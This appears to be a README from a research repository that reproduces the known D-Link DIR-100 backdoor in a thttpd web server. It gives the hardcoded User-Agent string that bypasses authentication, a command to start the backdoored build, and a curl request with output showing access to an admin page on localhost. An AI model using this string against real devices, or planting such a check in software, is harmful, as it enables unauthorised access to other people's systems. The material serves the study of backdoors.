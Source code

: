 # D-Link DIR-100 backdoor
- **Type**: hardcoded credentials
- **Affected versions**: 1.13, Revision A, 2011-09-15


## Backdoor
Setting the `"User-Agent"` header field to `"xmlset_roodkcableoj28840ybtide"` in an HTTP request
allows an attacker to bypass any authentication check.


## Triggering the backdoor
First, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/thttpd -D -u root -p 8080 -d ./example-server
```
Normally, only pages found under `localhost:8080/public/*` should be accessible. However, in a
separate terminal, we can trigger the backdoor via a simple HTTP request:
```console
$ curl -v -A xmlset_roodkcableoj28840ybtide http://localhost:8080/index.html
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /index.html HTTP/1.1
> Host: localhost:8080
> User-Agent: xmlset_roodkcableoj28840ybtide
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: thttpd/2.23beta1 26may2002
< Content-Type: text/html; charset=iso-8859-1
< Date: Thu, 12 Dec 2024 08:56:40 GMT
< Last-Modified: Tue, 10 Dec 2024 13:21:22 GMT
< Accept-Ranges: bytes
< Connection: close
< Content-Length: 170
<
<!DOCTYPE html>
<html>
    <head>
        <title> Admin page </title>
    </head>

    <body>
        <p> This page is available to admins only. </p>
    </body>
</html>
* Closing connection
```


## Reference
<https://www.zdnet.com/article/d-link-routers-found-to-contain-backdoor/>
